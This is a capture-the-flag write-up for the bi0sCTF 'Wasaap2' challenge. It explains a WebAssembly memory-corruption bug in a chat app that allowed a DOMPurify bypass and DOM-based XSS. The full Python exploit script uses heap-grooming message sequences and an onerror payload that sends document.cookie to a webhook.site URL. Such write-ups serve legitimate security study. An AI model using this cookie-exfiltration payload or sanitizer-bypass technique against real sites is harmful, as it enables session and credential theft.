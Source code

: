+++
title = "Wasaap2"
date = 2025-07-08
authors = ["Thirukailash"] 
+++


## Challenge Summary

The challenge presented a web-based chat interface with client-side WebAssembly (WASM) logic to handle message rendering and manipulation. Messages could be added, edited, and deleted, and each user’s state was serialized into a base64-encoded query string (`?s=...`). A bot visited user-generated states with a sensitive `Flag` cookie set.

The goal was to execute arbitrary JavaScript in the context of the bot to exfiltrate the `Flag` cookie.

---

## Vulnerability

The core issue was a memory corruption bug in the WASM module. By manipulating message creation and editing sequences, we achieved an **arbitrary read/write** primitive over the cached message structures in memory.

This allowed us to:

- Replace safe HTML tags (like `<div>`) with unsanitized tags (like `<xmp>`)
- Bypass DOMPurify's filtering and trigger a **DOM-based XSS**

---

## Exploit Strategy

1. **Heap Grooming**: Repeated `addmsg()` calls were used to layout memory and align controlled chunks.
2. **Structure Overlap**: A corrupted `cached_msg` object pointed into another, allowing us to overwrite tag names and bypass sanitization.
3. **XSS Payload Injection**: The `editmsg()` function placed a `<xmp><img onerror=...>` payload into the message content.
4. **Trigger Exfiltration**: The XSS sent `document.cookie` to a webhook.

---

## Exploit

``` Python
import os
import sys
import json
import base64
import urllib.parse
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("--sync", action="store_true", help="Build and sync WASM module")
parser.add_argument("--admin", action="store_true", help="Launch with admin access")
parser.add_argument("--port", type=int, help="Target app port")
parser.add_argument("--xss", action="store_true", help="Enable XSS delivery mode")
parser.add_argument("--debug", action="store_true", help="Launch in debug browser mode")
args = parser.parse_args()

# Default port
port = args.port or 5501

browser = "/usr/bin/google-chrome-stable"
if args.xss:
    print("[+] XSS MODE ENABLED")
    browser = "/usr/bin/firefox"
if args.debug:
    print("[+] DEBUG MODE ENABLED")

if args.sync:
    print("[*] Building client...")
    os.system("./build.sh")
    sys.exit(0)

payload = []
message_ids = []
message_counter = 0

def add_message(content, timestamp=0):
    global message_counter
    idx = message_counter
    message_ids.append(idx)
    payload.append({
        "action": "add",
        "content": content,
        "time": timestamp
    })
    message_counter += 1
    return idx

def delete_message(index):
    if index in message_ids:
        message_ids.remove(index)
        payload.append({
            "action": "delete",
            "msgId": index
        })

def edit_message(index, new_content, timestamp=0):
    payload.append({
        "action": "edit",
        "msgId": index,
        "content": new_content,
        "time": timestamp
    })

# -------------------- Build Payload --------------------

# Heap grooming
allocated = [add_message("B" * 8) for _ in range(10)]
add_message("B" * 100)
[add_message(chr(0x61 + i)) for i in range(7)]
add_message("hello")
target_msg = add_message("A")

# Alignment padding
for i in range(11):
    if i == 8:
        # XSS vector placed here
        xss_payload = "<div id='</xmp><img src=x onerror=window.open(\"https://webhook.site/fbd4abde-676b-4222-8e33-64107fe95661/?flag=\"+document.cookie)>'></div>"
        add_message(xss_payload.ljust(146, "a"))
    else:
        add_message(f"block-{i + 20}")

# Trigger allocation to overwrite target
overlap_msg = add_message("zzz")

# Mutate HTML rendering internals
edit_message(18, chr(0x35))
edit_message(31, "xmp")
edit_message(18, chr(0x3f))
edit_message(31, "xmp")
edit_message(18, "aaaa" + chr(0x6c))
delete_message(31)

# -------------------- Encode Payload --------------------

encoded = json.dumps(payload, separators=(',', ':'))
print(f"[+] Raw JSON: {encoded}")

b64_payload = base64.b64encode(encoded.encode()).decode()
url_payload = urllib.parse.quote(b64_payload)

print(f"[+] Encoded payload: {url_payload}")

base_url = f"http://127.0.0.1:{port}/bot"
visit_url = f"{base_url}?visit={url_payload}" if args.admin else base_url

os.system(f"{browser} --new-tab \"{visit_url}\"")

```

---

## Final Payload Execution

The script sets up:

- `addmsg()` to fill up memory
- `editmsg()` to overwrite structure fields
- `delmsg()` to release memory
- Custom tag rewrites (`div` → `xmp`)

---

## Takeaways

This challenge demonstrated practical exploitation of:

- WebAssembly memory structure manipulation
- DOMPurify bypass through tag corruption
- Arbitrary read/write primitives in client-side VMs
- Real-world exploitation of serialization-based XSS

---

Huge thanks to **bi0sCTF** for this excellent challenge. It was a fun and insightful exercise into memory layout exploitation and browser-based attack surfaces.
